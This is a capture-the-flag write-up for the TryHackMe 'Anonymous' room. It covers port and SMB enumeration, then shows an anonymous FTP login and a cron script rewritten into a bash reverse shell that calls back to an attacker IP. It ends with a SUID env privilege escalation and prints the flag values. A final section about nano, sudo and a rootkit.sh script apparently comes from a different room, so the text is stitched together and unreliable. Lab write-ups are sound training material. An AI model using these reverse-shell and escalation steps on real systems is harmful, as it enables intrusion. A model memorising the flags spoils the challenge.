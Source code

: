 # Room: Anonymous

## General Info
- **Room link:** [Anonymous](https://tryhackme.com/room/anonymous)


## Description

Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

## Provided Files / Links
- [x] Target Machine IP (10.10.56.61)

## Enumeration / Recon

- Port Enumeration:
`nmap -sV 10.10.56.61 -p- -T5`

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
There are 2 smb services on port 139 and 445.

I first use enum4linux to try to get usernames: `enum4linux -U -o 10.10.56.61`

```
 ========================================( Users on 10.10.56.61 )========================================

index: 0x1 RID: 0x3eb acb: 0x00000010 Account: namelessone      Name: namelessone       Desc: 
```

I found the username `namelessone`.

I then try to get the shares on the target SMB machine, using an nmap script: `nmap -p 445 --script=smb-enum-shares.nse 10.10.56.61`.

```
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.56.61\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (anonymous server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.56.61\pics: 
|     Type: STYPE_DISKTREE
|     Comment: My SMB Share Directory for Pics
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\namelessone\pics
|     Anonymous access: READ
|     Current user access: READ
|   \\10.10.56.61\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

The share on the user's computer is called `\pics`.

I then continue my research about the smb protocols: `nmap -p 139,445 --script=smb-os-discovery,smb-protocols 10.10.56.61`.

```
Host script results:
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2:0:2
|     2:1:0
|     3:0:0
|     3:0:2
|_    3:1:1
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-05-20T08:57:49+00:00
```

I went to see the content of the /pics share (`smbclient //10.10.56.61/pics -N`). There were 2 jpg files but nothing relevant in them (I checked the content with strings and exiftool).

I then tried to access the machine through ftp and I was able to log in as anonymous.

I found a clean.sh file that was actually running on a CRON. 

I modified the script to get a reverse shell:

```
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.9.1.194/1337 0>&1
```

I put a listener on port 1337: `nc -nlvp 1337`

And I was able to get the reverse shell.

### Target machine exploitation

I stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I get the flag in the user.txt file: **90d6f992585815ff991e68748c414740**

Then I downloaded and ran linpeas.sh in the /tmp directory.

I found this specific information in the "Files with Interesting Permissions" section:

`-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env`

I then went to https://gtfobins.github.io/gtfobins/env/ to see if I can exploit this permission. I tried exploiting this one `/usr/bin/env /bin/sh -p` and I actually got root access.

I found the root.txt file (in /root/root.txt): **4d930091c31a622a7ed10f27999af363**.







If I select the option `read`, I will be able to exploit nano to get privilege escalation as root.

Before executing the script, I make some changes in my shell to stabilize further:

- CTRL + Z to go back to my attacker machine
- `stty raw -echo;fg`
- I now have a stabilized shell where I all the key presses are well interpreted

I try to run the command `sudo /bin/bash /opt/rootkit.sh` and select the option `read` but it get the error: Error `opening terminal: unknown`. It means that the terminal type isn't properly set when nano is launched with sudo from that script.

I then export `export TERM=xterm` and run the script (`sudo /bin/bash /opt/rootkit.sh` and select the option `read`).

Following https://gtfobins.github.io/gtfobins/nano/, I just have to press CTRL + R and CTRL + X and I can perform any command as root: cat /root/root.txt => **THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}**. 